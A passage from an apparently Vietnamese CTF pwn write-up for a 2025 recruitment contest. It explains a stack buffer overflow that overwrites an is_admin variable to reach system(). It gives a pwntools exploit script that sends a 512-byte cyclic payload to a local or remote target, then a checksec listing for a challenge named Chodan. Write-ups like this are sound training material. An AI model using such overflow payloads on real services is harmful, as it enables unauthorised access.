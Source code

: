 Và biến `buf` nằm trên `is_admin` nên ta hoàn  toàn có thể thay đổi được giá trị của `is_admin` và làm cho chương trình thực hiện hàm `system()`

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwncus import *

context.log_level = 'debug'
exe = context.binary = ELF('./main', checksec=False)


def GDB(): gdb.attach(p, gdbscript='''


c
''') if not args.REMOTE else None

if args.REMOTE:
    con = sys.argv[1:]
    p = remote(con[0], int(con[1]))
else:
    p = process(argv=[exe.path], aslr=False)
set_p(p)
if args.GDB: GDB(); input("Please press ENTER to send your payload")

# ==================== EXPLOIT ====================

def exploit():

  sla(b'Input: ', cyclic(0x200))

  interactive()

if __name__ == '__main__':
  exploit()
```

# Chodan

```sh
[*] '/home/alter/CTFs/2025/KSCS_Recruit/PWN/Chodan/chodan'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
